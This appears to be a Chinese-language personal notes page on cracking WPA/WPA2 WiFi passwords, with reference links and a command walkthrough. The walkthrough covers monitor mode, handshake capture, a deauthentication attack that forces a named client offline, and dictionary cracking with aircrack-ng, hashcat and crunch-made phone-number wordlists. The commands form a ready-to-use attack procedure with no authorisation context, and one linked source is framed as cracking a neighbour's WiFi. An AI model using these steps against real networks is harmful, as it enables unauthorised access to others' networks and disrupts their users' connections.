 
> “WiFi 安全”

参考：

- [Kali使用Aircrack-ng进行暴力破解WIFI密码_aircrck-ng 跑密码-CSDN博客](https://blog.csdn.net/RFZ_322/article/details/123344248)
- [【Aircrack】Kali Linux使用Aircrack破解wifi密码(wpa_wpa2) - 罗道义 - 博客园](https://www.cnblogs.com/daoyi/p/Kali-Linux-shi-yongAircrack-po-jiewifi-mi-ma-wpawp.html)
- [【Aircrack】Kali破解wifi最基础版_运维_河南理工杨轻帆的博客-CSDN博客](https://blog.csdn.net/tangjikede2008/article/details/99758890)
- [【Aircrack】airodump-ng帮助手册翻译 - lim42 - 博客园](https://www.cnblogs.com/lim42/p/6887905.html)
- [【Crunch】Linux下的字典生成工具Crunch，创造自己的专属字典 - FreeBuf互联网安全新媒体平台](https://www.freebuf.com/sectool/170817.html)
- [【Crunch】crunch--字典生成工具 - wpjamer - 博客园](https://www.cnblogs.com/wpjamer/p/9913380.html)
- [【Crunch】crunch生成手机号 发个教程 55G吓人啊 - mljqqh - 博客园](https://www.cnblogs.com/mljqqh/p/10344507.html)
- [【Hashcat】cracking_wpawpa2 [hashcat wiki]](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2)
- [【Hashcat】frequently_asked_questions [hashcat wiki]](https://hashcat.net/wiki/doku.php?id=frequently_asked_questions#overview)
- [【Hashcat】hashcat暴力破解密码 _ 忆杰的博客](https://www.joenchen.com/archives/1248)
- [【Hashcat】使用Hashcat跑Wifi密码 _ ohhink](https://ouhaohan8023.github.io/2019/08/22/Artisans/使用Hashcat跑Wifi密码/)
- [【Hashcat】用Hashcat每秒计算1.4亿个密码，破解隔壁WIFI密码 - 方方和圆圆 - 博客园](https://www.cnblogs.com/diligenceday/p/6359661.html)
- [【钓鱼】Hacking any WPA_WPA2 PSK without BruteForce - 简书](https://www.jianshu.com/p/2a19a8e5aee7)
- [隐藏wifi ssid获取 - 简书](https://www.jianshu.com/p/a86ae4ed102d)

## airmon-ng, airodump-ng, aireplay-ng, aircrack-ng 工具的使用

```shell
# 查看支持的网卡
airmon-ng 

# 将网卡切换成监听模式
# wlan0 是网卡名称，开启后会在后面加上mon
airmon-ng start wlan0
```

```shell
# 扫描无线列表
airodump-ng wlan0mon

# 查看指定 BSSID 的详情(非必要步骤)
airodump-ng -d 08:1F:71:xx:xx:xx wlan0mon
```

```shell
# 抓握手包，在这里面包含加密的密码
airodump-ng -c 1 --bssid 08:1F:71:xx:xx:xx -w ~/wifi/ wlan0mon
```

```shell
# 攻击连接上该热点的客户端，让其掉线重连，以获取握手包
# 注意：执行主动攻击的时候新建一个终端执行命令，原来的抓包终端不要结束
aireplay-ng -0 20 -a 08:1F:71:xx:xx:xx -c 04:33:85:xx:xx:xx wlan0mon
```
参数解释：
- `-0` 表示发起deauthentication攻击
- `-a` 指定无线路由器BSSID
- `-c` 指定强制断开的设备

```shell
# 停止监听模式
airmon-ng stop wlan0mon

# 跑字典获取密码
aircrack-ng -a2 -b 08:1F:71:xx:xx:xx -w /usr/share/wordlists/rockyou.txt ~/wifi/*.cap 
```
参数解释：

- `-a2` 代表WPA的握手包
- `-b` 指定要破解的wifi BSSID。
- `-w` 指定字典文件
- 最后是抓取的包

## 使用 Hashcat 快速跑字典
  
Hashcat for windows: [hashcat-5.1.0.7z](https://hashcat.net/files/hashcat-5.1.0.7z) [hashcat-utils](https://github.com/hashcat/hashcat-utils/releases)

```
# 转换 cap 为 hccapx
cap2hccapx.exe 01.cap 01.hccapx

# 用 Hashcat 跑字典，支持 GPU 加速，其中指定 session 可以保存日志或进度
hashcat64.exe -m 2500 D:\test\01.hccapx D:\zd\word.txt  --session=whypie0
```

## 使用 Crunch 生成任意字典

- https://github.com/shadwork/Windows-Crunch/releases

生成手机号，新建一个 `num.txt` 文件，内容为：

```
numeric = [345789]
```

然后让其生成，最后文件非常大，有 `72.6 GB`！：

```
crunch 11 11 -f ./num.txt numeric -t 1@%%%%%%%%% -o allPhones.txt
```

- 生成8位随机数字：`crunch 8 8 0123456789 -o digits_8.txt`